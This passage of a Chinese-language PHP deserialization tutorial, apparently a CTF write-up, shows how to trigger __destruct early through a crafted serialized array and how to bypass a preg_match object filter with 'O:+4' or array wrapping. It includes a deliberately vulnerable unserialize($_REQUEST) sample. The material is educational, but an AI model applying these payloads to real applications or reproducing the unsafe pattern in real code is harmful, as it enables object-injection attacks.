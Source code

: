     
    1Destroy...2Destroy...————————————3Destroy...

  
这里是当a第二次赋值时,test('2')失去引用，执行__destruct,然后执行echo,当程序完了后test('3')销毁，执行它的__destruct。  
举个栗子：

  *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass test {    function __destruct(){        echo 'success!!';    }}if(isset($_REQUEST['input'])) {    $a = unserialize($_REQUEST['input']);    throw new Exception('lose');}

  
这里我们要求输出 success!! ，但执行反序列化后得到的对象有了引用，给了 a 变量，后面程序接着就抛出一个异常，非正常结束，导致未正常完成 GC
机制，即没有执行 __destruct 。  
直接构造反序列化 test
类得到：![](https://gitee.com/fuli009/images/raw/master/public/20230301180817.png)所以我们要反序列化手动去
“销毁” 创造的对象。这里我们可以利用数组来完成。构造：

  *   *   *   *   * 

    
    
    class test {}$a = serialize(array(new test, null));echo $a.'<br/>';$a = str_replace(':1', ':0', $a);//将序列化的数组下标为0的元素给为nullecho $a;

  
得到

  *   * 

    
    
    a:2:{i:0;O:4:"test":0:{}i:1;N;}a:2:{i:0;O:4:"test":0:{}i:0;N;}//最终payload

  
传入，成功得到
success!!![]()我们序列化一个数组对象，考虑反序列化本字符串，因为反序列化的过程是顺序执行的，所以到第一个属性时，会将Array[0]设置为对象，同时我们又将Array[0]设置为null，这样前面的test对象便丢失了引用，就会被GC所捕获，就可以执行__destruct了。

###  

### 绕过正则

  
如preg_match('/^O:\d+/')匹配序列化字符串是否是对象字符串开头。  
绕过方法

  * 利用加号绕过（注意在url里传参时+要编码为%2B）。
  * 利用数组对象绕过，如 serialize(array($a)); a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    <?phpclass test{    public $a;    public function __construct(){        $this->a = 'abc';    }    public function  __destruct(){        echo $this->a.PHP_EOL;    }} function match($data){    if (preg_match('/^O:\d+/',$data)){        die('nonono!');    }else{        return $data;    }}$a = 'O:4:"test":1:{s:1:"a";s:3:"abc";}';// +号绕过$b = str_replace('O:4','O:+4', $a);unserialize(match($b));// 将对象放入数组绕过 serialize(array($a));unserialize('a:1:{i:0;O:4:"test":1:{s:1:"a";s:3:"abc";}}');

###  
